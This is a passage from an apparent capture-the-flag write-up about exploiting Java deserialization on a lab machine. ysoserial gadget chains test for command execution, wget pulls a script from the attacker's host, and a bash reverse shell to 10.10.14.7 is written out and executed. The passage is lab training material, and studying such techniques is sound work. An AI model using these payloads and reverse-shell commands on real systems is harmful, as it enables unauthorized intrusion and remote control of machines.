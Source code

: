      </params>
    </methodCall>



Then, for each Payload to try, I can run
`ysoserial CommonsCollections5 'ping -c 1 10.10.14.7' | base64 -w 0` and
paste that into the `<serializable>` tag and submit, and watch `tcpdump`
for a ping.

None of the `CommonsCollections` worked, but `CommonsBeanutils1` did!

#### Check for wget/curl

I've had really bad luck with complicated commands like reverse shells
via Java deserialization. I'd much rather upload a Bash script and then
run it. For that, I'll want to see if `wget` or `curl` can contact my
host.

Start with a payload:



    oxdf@parrot$ ysoserial CommonsBeanutils1 'wget 10.10.14.7' | base64 -w 0
    ...[snip]...



Start Python webserver, and send the payload from Burp. The webserver
gets a hit:



    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.238 - - [23/Apr/2021 08:42:30] "GET / HTTP/1.1" 200 -



#### Reverse Shell

I'll use two payloads to get a shell. I'll write `rev.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.7/443 0>&1



First, I'll upload it to the container with `wget`:



    oxdf@parrot$ ysoserial CommonsBeanutils1 'wget 10.10.14.7/rev.sh' | base64 -w 0



Once that succeeds (I'll see the 200 at the Python webserver), then I'll
execute it:



    oxdf@parrot$ ysoserial CommonsBeanutils1 'bash rev.sh' | base64 -w 0

